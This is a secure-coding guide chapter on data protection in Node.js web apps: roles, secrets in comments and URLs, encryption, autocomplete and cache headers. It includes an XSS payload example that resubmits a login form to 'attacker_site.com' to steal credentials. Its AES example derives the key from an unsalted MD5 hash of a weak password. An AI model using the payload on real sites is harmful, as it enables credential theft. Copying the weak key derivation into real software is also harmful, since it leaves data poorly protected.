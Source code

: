 Data Protection
===============

Nowadays, one of the most important things in security in general is data
protection. You don't want something like:

![All your data are belong to us](files/cB52MA.jpeg)

In a nutshell, data from your web application needs to be protected, so in this
section we will take a look at the different ways to secure it.

One of the first things you should take care of, is creating and implementing the
right privileges for each user and restrict them to only the functions they
really need.

For example, consider a simple online store with the following user roles:

* _Sales user_: Permission only to view catalog
* _Marketing user_: Allowed to check statistics
* _Developer_: Allowed to modify pages and web application options

Also, in the system configuration (aka webserver), you should define the right
permissions.

The main thing is to define the right role for each user - web or system.

Role separation and access controls are further discussed in
the [Access Control][1] section.

## Remove sensitive information

Temporary and cache files which contain sensitive information should be removed
as soon as they're not needed. If you still need some of them, move them to
protected areas and/or encrypt them. This includes all authentication
verification data, even on the server-side.

Last but not least, when using encryption, make sure you are using well vetted
algorithms. More information in the [Cryptographic Practices](http://LINK)
section of this document.

### Comments

Sometimes developers leave comments like _To-do lists_ in the source-code, and
sometimes, in the worst case scenario, developers may leave credentials.

```javascript
// Secret API endpoint - /api/mytoken?callback=myToken
console.log("Just a random code")
```

In the above example, the developer has a endpoint in a comment which, if not
well protected, could be used by a malicious user.

### URL

Passing sensitive information using the HTTP GET method leaves the web
application vulnerable because:

1. Data could be intercepted if not using HTTPS by MITM attacks.
2. Browser history stores the user's information. If the URL has
   session IDs, pins or tokens that don't expire (or have low entropy),
   they can be stolen.

```javascript
var http = require('http');

var options = {
  host: 'www.mycompany.com',
  path: '/api/mytoken?api_key=000s3cr3t000'
};

callback = function(response) {
  var str = '';

  //another chunk of data has been recieved, so append it to `str`
  response.on('data', function (chunk) {
    str += chunk;
  });

  //the whole response has been recieved, so we just print it out here
  response.on('end', function () {
    console.log(str);
  });
}

http.request(options, callback).end();
```

If you web application tries to get information from a third-party website
using your ```api_key```, it could be stolen if anyone is listening within your
network. This is due to the lack of HTTPS and the parameters being passed
through GET.

Also, if your web application has links to the example site:

```
http://mycompany.com/api/mytoken?api_key=000s3cr3t000
```

It will be stored in your browser history so, again, it can be stolen.

Solutions should always use HTTPS. Furthermore, try to pass the parameters using
the POST method and, if possible, use one time only session IDs or token.

### Information is power

You should always remove application and system documentation on the production
environment. Some documents could disclose versions, or even functions that could
be used to attack your web application (e.g. Readme, Changelog, etc.).

As a developer, you should allow the user to remove sensitive information that
is no longer used. Imagine that the user has expired credit cards on
his account and wants to remove them - your web application should allow it.

All of the information that is no longer needed must be deleted from the
application.

Also important is to ensure no server-side source code can be downloaded or
accessed by a user.

#### Encryption is the key

Every highly sensitive information should be encrypted in your web application.
See the [Cryptographic Practices][3] section for more information regarding
algorithms and their usage.

Getting different permissions for accessing the code and limiting the access
for your source-code is the best approach.

Do not store passwords, connection strings (see example for how to secure database
connection strings on [Database Security][4] section) or other sensitive
information in clear text or in any non-cryptographically secure manner on the
client side.
This includes embedding in insecure formats (e.g. Adobe flash or compiled code).

A small example of `aes-256-cbc` encryption in Node.JS using the
`crypto` package:
Link - `https://www.npmjs.com/package/bcrypt`

```javascript
'use strict';
const crypto = require('crypto');

// get password's md5 hash
let password = 'test';
let password_hash = crypto.createHash('md5').update(password, 'utf-8').digest('hex').toUpperCase();
console.log('key=', password_hash); // 098F6BCD4621D373CADE4E832627B4F6

// our data to encrypt
let data = 'Sample text to encrypt';
console.log('data=', data);

// generate random initialization vector
var iv = crypto.randomBytes(16)
console.log('iv=', iv);

// encrypt data
let cipher = crypto.createCipheriv('aes-256-cbc', password_hash, iv);
let encryptedData = cipher.update(data, 'utf8', 'hex') + cipher.final('hex');
console.log('encrypted data=', encryptedData.toUpperCase());
```

Output will be:

```
key= 098F6BCD4621D373CADE4E832627B4F6
data= Sample text to encrypt
iv= <Buffer d7 98 9a 54 a0 e6 bc 45 f3 7f bc 33 c2 0f 7d 00>
encrypted data= 83640168A86A9F2BC0BEEEDEB39756E195EF3D0758A3262F012697C3D718B039
```

## Disable what you don't need

Another simple and efficient way to mitigate attack vectors is to guarantee that
any unnecessary applications or services are disabled in your systems.

### Autocomplete

According to [Mozilla documentation][1], you can disable autocompletion in the
entire form by using:

```html
<form method="post" action="/form" autocomplete="off">
```

Or a specific form element:

```html
<input type="text" id="cc" name="cc" autocomplete="off">
```

This is especially useful for disabling autocomplete on login forms. Imagine a
case where a XSS vector is present in the login page.
If the malicious user creates a payload like:

```javascript
window.setTimeout(function() {
  document.forms[0].action = 'http://attacker_site.com';
  document.forms[0].submit();
}
), 10000);
```

It will send the autocomplete form fields to the `attacker_site.com`.

### Cache

Cache control in pages that contain sensitive information should be disabled.

This can be achieved by setting the corresponding header flags.   
The following snippet shows how to do this in an `express` application:

```javascript
//Express application
[...]

app.use(function (req,res,next){
  res.header('Cache-Control', 'private, no-cache, no-store, must-revalidate')
  res.header('Pragma', 'no-cache')
  next()
});

[...]
```

The `no-cache` value tells the browser to revalidate with the server before
using any cached response. It does not tell the browser to _not cache_.

On the other hand, `no-store` value is really - _Hey stop caching!_ - and
must not store any part of the request or response.

The `Pragma` header is there to support HTTP/1.0 requests.

[1]: ./access-control/README.md
[2]: http://LINK
[3]: /cryptographic-practices/README.md
[4]: /database-security/README.md
